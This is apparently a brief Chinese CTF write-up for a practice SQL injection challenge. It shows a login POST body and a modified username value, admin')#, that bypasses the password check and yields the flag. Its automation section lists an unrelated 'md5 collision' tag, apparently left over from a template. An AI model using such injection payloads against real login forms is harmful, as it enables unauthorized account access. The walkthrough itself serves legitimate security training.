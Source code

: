 ### SQL注入1

## 题目

> http://ctf.nuptzj.cn/challenges#SQL%E6%B3%A8%E5%85%A51
>
> 听说你也会注入？ 

## 解答思路

- 需要注意的是需要添加`)`



## 解题步骤

1. 在登录框中输入用户名和密码，post提交，hackbar加载，其数据如下：

   ```http
   user=admin&pw=password
   ```

2. 修改user数据提交，如下

   ```http
   user=admin')#&pw=password
   ```

   得到flag
## 漏洞挖掘思路

- todo

## 自动化解析

- TODO

- 判断题目特征：`web` `php` `md5 collision`
- 设定题目难度等级`level`为simple
- 提交相应符合要求的字符串

